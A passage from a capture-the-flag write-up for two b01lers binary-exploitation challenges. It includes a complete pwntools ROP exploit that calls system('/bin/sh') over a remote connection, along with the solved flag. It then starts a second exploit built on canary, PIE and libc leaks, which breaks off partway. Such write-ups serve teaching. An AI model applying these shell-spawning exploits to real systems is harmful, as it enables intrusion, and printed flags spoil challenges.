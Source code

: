 <h1 id="SeeforYourself">See for Yourself</h1>

### Description:

    The matrix requires a more advanced trick this time. Hack it.
    nc chal.ctf.b01lers.com 1008

### Solution:

I am the second people to solve this challenge, we can create a rop to set the address of "/bin/sh" to `%rdi` and call `system` from plt 

{% highlight python %}
from pwn import *
r = process("./simplerop-af22071fcb7a6df9175940946a6d45e5")
r = remote("chal.ctf.b01lers.com", 1008)
binsh = 0x402008
sy = 0x000000000401080
pprdi = 0x0000000000401273
ret = 0x000000000040101a
p = "A" * 8 
p += p64(ret)
p += p64(pprdi)
p += p64(binsh)
p += p64(sy)
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{ROP_ROOP_OOP_OOPS}

<h1 id="GoodbyeMrAnderson">Goodbye, Mr. Anderson </h1>

### Description:

    Do it again Neo. Cheat death.
    nc chal.ctf.b01lers.com 1009

### Solution:

this is the tricky one, we can overwrite `__libc_start_main` using `leak_stack_canary` function
the binary itself use full protection and use libc version 2.31. which we can't use one_gadget to solve this challenge.
in order to solve this challenge we need to leak canary, base pie and libc address 
since we can only overwrite `__libc_start_main` in order to create a rop we can use `add rsp, 8; ret;` gadget
to get our rop working properly. pardon my crappy code.

{% highlight python %}

#!/usr/bin/env python2

import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./leaks-c85e4a348b2a07ba8e6484d69956d968")
elf = ELF(TARGET)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def attach(r):
    if LOCAL:
        bkps = ["* main", "* main+229","* main+140"]
        gdb.attach(r, '\n'.join(["b %s"%(x,) for x in bkps]))
    return

def seto(size,val):